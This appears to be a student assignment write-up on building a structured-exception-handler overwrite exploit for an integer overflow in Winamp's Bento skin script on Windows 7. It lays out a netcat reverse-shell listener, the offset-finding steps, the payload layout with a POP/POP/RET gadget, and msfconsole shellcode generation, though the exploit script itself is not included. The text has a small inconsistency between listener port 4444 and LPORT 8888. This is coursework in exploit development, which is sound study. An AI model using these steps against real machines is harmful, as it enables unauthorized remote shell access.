 ## Introduction
In this assignment, we explore the exception handler mechanism in the Windows 7 operating system. The target is the Winamp media player, specifically the Bento skin script, exploiting an integer overflow vulnerability to gain unauthorized access to the Windows 7 shell.

## Running the Exploit
The exploit worked on a Windows 7 machine using the specified command:
In one terminal:
```bash
$ nc -l -p 4444 -nvv
```
In another terminal:

```bash
$ cd C:\Program Files\Winamp\Skins\Bento\scripts
$ perl exploit.pl > mcvcore.maki
```

Note: [Proof of concept that the exploit works]

## Developing the Exploit
This assignment leverages the Structured Exception Handling (SEH) chain stored on the stack. SEH records are special blocks representing exception handler conditions. Exploiting the vulnerability involves finding the offset to overwrite the first SEH record for Winamp in Windows 7.

## Finding Offset:
Create a pattern with 20,000 "A" characters:

```bash
$ ./pattern_create.rb -l 20000
```
Attach Winamp to WinGDB, run a custom skin with 20,000 "A"s, and identify the SEH record offsets:

```bash
$ ./pattern_offset.rb -q ADDR -l 20000
```
Output of WinGDB when overwriting by 20000 "A"s

## Crafting the Exploit:
Craft the exploit with 16756 "A" bytes, a JMP +4 instruction, and the address of a POP/POP/RET gadget from the "nscrt.dll" library.

Locating the DLL file which contains pop/pop/ret gadget

## Building Shellcode:
Use the msfconsole framework to build shellcode with LPORT set to 8888 and LHOST to 127.0.0.1:

```bash
$ generate -f perl -e x86/alpha_mixed
```
Output shellcode using msfconsole framework

##References and Collaborations
Encountered a problem due to using the wrong payload (windows/x86/shell_reverse_tcp). Watched the videos multiple times.
